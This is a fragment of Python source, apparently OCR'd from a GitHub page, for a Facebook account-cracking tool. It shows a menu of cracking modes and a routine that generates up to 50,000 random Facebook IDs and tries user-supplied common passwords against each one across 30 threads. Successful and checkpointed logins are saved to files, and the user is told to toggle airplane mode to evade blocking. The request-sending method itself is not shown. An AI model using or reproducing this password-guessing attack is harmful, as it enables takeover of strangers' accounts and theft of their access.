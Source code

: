 		print("%s [%s7%s]%s FOLLOW ME ON FACEBOOK %s"%(G,R,G,Y,G))
		print("\033[97;1m   鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€")
		print("\033[92;5m         GIVE RESPECT     GET RESPECT    ")
		print("\033[97;1m   鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€")
		hoga = input("\n%s [?] CHOICE : "%(Y))
		if hoga in ["", " "]:
			Main()
		elif hoga in ["1", "01"]:
			self.fbtua()
		elif hoga in ["2", "02"]:
				self.old4_7()
		elif hoga in ["3", "03"]:
				self.old4_6()
		elif hoga in ["4", "04"]:
				self.old4_5()
		elif hoga in ["5", "05"]:
				self.email()
		elif hoga in ["6","06"]:
				self.oldcrack()
		elif hoga in ["7", "07"]:
			os.system('am start https://www.facebook.com/profile.php?id=100083090089737')
		else:
			Main()

	def fbtua(self):
		x = 111111111
		xx = 999999999
		idx = "100000"
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;97m(50000MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(G))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;96m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
